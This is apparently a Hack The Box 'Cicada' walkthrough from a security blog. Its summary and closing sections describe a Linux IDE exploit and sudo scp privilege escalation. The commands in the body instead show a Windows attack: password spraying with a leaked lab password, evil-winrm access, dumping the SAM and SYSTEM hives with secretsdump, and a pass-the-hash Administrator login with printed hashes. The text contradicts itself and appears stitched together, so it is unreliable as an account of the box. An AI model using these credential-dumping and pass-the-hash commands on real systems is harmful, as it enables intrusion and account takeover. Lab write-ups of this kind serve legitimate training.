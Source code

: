 ```yaml
---
title: "Cicada"
date: 2024-11-11
categories: HTB
description: "HTB Cicada walkthrough demonstrating initial access via exposed IDE, SSH lateral movement, and privilege escalation using misconfigured sudo scp."
tags: [scp, sudo-abuse, ssh, exposed-service, bashrc]
---
```


Cicada explores a Linux system hosting a misconfigured development IDE that listens on an open port.

Initial access was obtained through exploiting exposed debugging endpoints, allowing unauthenticated command execution.

Foothold enumeration revealed sensitive source code and user credentials.

Escalated to root by abusing `scp` with sudo rights to overwrite `.bashrc` and execute a payload during SSH login.

## Why I Chose This Machine

I chose Cicada because it simulates a developer environment with exposed services and user-level lateral movement.  

It also illustrates a classic `scp` sudo misconfiguration, making it a practical example of post-compromise privilege escalation.

## Attack Flow Overview

1. Identified an open port hosting an IDE that allowed code execution  
2. Gained an initial shell through the exposed editor feature  
3. Found a user credential and switched context via SSH  
4. Escalated privileges by using `sudo scp` to overwrite `.bashrc` and trigger root shell on login

This scenario mirrors what often happens in exposed dev environments — where trust in helper tools becomes a liability.

## Enumeration

### SMB

![screenshot](/assets/images/cicada1.png)

#### Notice from HR.txt

![screenshot](/assets/images/cicada2.png)

 Found password.

```text
Cicada$M6Corpb*@Lp#nZp!8
```

![screenshot](/assets/images/cicada3.png)

Password spraying the found credential with username list found a match.

Further enumerate SMB with the new credential.

![screenshot](/assets/images/cicada4.png)

Found another credential for michael.wrightson user.

```sh
enum4linux-ng -A -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' cicada.htb -t 10
```

![screenshot](/assets/images/cicada5.png)

![screenshot](/assets/images/cicada6.png)

#### Backup_script.ps1

![screenshot](/assets/images/cicada7.png)

![screenshot](/assets/images/cicada8.png)

Found another credential for emily.oscars user.

## Foothold

Evil-winRM as emily.oscars.

```sh
nxc winrm cicada.htb -u users.txt -p passwords.txt
```

![screenshot](/assets/images/cicada9.png)

![screenshot](/assets/images/cicada10.png)

## Privilege Escalation

```powershell
whoami/all
```

![screenshot](/assets/images/cicada11.png)

### Backup SAM and SYSTEM registry hives

```powershell
# save SAM and SYSTEM via evil-winrm
reg save hklm\sam sam.hive
reg save hklm\system system.hive

download sam.hive
download system.hive
```

![screenshot](/assets/images/cicada12.png)

### Extracting hashes

```sh
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

![screenshot](/assets/images/cicada13.png)

```txt
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Evil-winRM as administrator.

```sh
evil-winrm -i cicada.htb -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```

![screenshot](/assets/images/cicada14.png)

## Alternative Paths Explored

Before exploiting the IDE, I attempted to fingerprint known services and brute-force login credentials, which were unsuccessful.  
I also explored SUID binaries and cron-based privilege escalation paths, but found none exploitable.  
Focusing on `sudo -l` and allowed binaries led me to the correct privilege escalation vector.

## Blue Team Perspective

Cicada highlights the risk of granting `sudo` access to file transfer tools like `scp`.  
To mitigate:

- Avoid giving unrestricted `sudo` access to commands that modify arbitrary files  
- Enforce sudoers restrictions with exact argument matching  
- Monitor for modifications to shell startup files like `.bashrc` or `.profile`